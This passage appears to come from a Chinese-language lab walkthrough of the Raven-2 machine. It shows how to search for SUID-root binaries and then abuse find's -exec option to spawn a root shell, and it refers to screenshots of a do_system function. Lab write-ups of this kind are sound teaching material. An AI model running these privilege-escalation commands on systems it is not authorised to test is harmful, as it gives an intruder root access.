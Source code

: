 ![创建do_system函数](./Raven-2/创建do_system函数.png)

利用`find / -user root -perm -4000 -print 2>/dev/null`，`find`存在`suid`权限 。

![找到find](./Raven-2/找到find.png)

原来这个`find`在`/usr/bin`目录下，每个操作系统不一样。

```bash
find / -user root -perm -4000 -print 2>/dev/null
touch filecode
find filecode -exec "whoami" \;
find filecode –exec "sh" \;
id
```
